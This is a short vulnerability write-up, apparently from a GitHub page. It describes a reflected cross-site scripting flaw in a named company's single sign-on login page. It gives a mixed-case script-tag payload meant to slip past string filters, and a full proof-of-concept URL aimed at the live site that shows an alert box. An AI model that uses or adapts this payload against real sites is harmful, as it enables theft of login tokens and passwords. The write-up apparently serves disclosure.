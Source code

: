 ### website: https://ssologin.nbcuni.com/login/login.jsp
#### Vulnibity: URL-Based Stored Cross-Site Scripting

**What can this exploit do?0**

- lets attackers steal access tokens
- inject JS in to page
- steal passwords when entered
- spoof website

**Where?**
In support URL. Attacker will send victim the payload url

**xss injection**
```html
ScripT><ScRIpT>PAYLOAD</scRIpT>&TYPE=33554433 -d alert(0)=
```
this will be url encoded

**Proof of work**
```html
https://ssologin.nbcuni.com/login/login.jsp?GUID=&METHOD=GET&REALMOID=06-0009e2d8-db31-1580-b135-b18a0303f045&SMAGENTNAME=-SM-ytANZow+tuVB5Fe2fulv1ewOCwpmtxxLxQxNRRMbJdz7F1bbJrGLHTuQn5LLn0MiDgsP6M53Q2xh7X7GV8HfIIxIIy8nHAOp&SMAUTHREASON=0&TARGET=-SM-https://myschedule.nbcuni.com/SchedulerPortal.aspx%3C/ScripT%3E%3CScRIpT%3Evar%20x=String(/HELLO%20THIS%20IS%20AN%20XSS%20VUN/);x=x.substring(1,x.length-1),alert(x);%20%3C/scRIpT%3E&TYPE=33554433%20-d%20alert(0)=

```
the following shows how to avoid sting detection in url and excute alert script



